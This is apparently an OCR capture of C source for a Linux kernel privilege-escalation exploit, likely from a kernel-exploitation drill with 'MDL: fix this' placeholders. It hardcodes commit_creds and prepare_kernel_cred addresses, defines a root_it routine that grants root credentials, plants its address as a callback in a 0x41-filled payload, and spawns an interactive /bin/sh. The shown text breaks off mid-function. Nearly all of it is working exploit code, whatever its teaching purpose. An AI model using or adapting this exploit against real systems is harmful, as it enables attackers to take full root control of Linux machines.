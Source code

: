 ```c

/* Addresses from System.map (no KASLR) */
#define COMMIT_CREDS_PTR        0xffffffff81084370      // MDL: fix this symbol
#define PREPARE_KERNEL_CRED_PTR 0xffffffff810845a0      // MDL: fix this symbol

typedef int __attribute__((regparm(3))) (*_commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (*_prepare_kernel_cred)(unsigned long cred);

_commit_creds commit_creds = (_commit_creds)COMMIT_CREDS_PTR;
_prepare_kernel_cred prepare_kernel_cred = (_prepare_kernel_cred)PREPARE_KERNEL_CRED_PTR;

void __attribute__((regparm(3))) root_it(unsigned long arg1, bool arg2)
{
        commit_creds(prepare_kernel_cred(0));
}

// MDL: copy the definition of drill_item_t here
struct drill_item_t {
        uint32_t foo;
        void (*callback)(void);
        char bar[1];
};



/* ========================================================================== */

void run_sh(void)
{
        pid_t pid = -1;
        char *args[] = {
                "/bin/sh",
                "-i",
                NULL
        };
        int status = 0;

        pid = fork();

        if (pid < 0) {
                perror("[-] fork()");
                return;
        }

        if (pid == 0) {
                execve("/bin/sh", args, NULL); /* Should not return */
                perror("[-] execve");
                exit(EXIT_FAILURE);
        }

        if (wait(&status) < 0)
                perror("[-] wait");
}

void init_payload(char *p, size_t size)
{
        struct drill_item_t *item = (struct drill_item_t *)p;

        memset(p, 0x41, size);

        item->callback = (uint64_t)root_it;

        printf("[+] payload:\n");
```
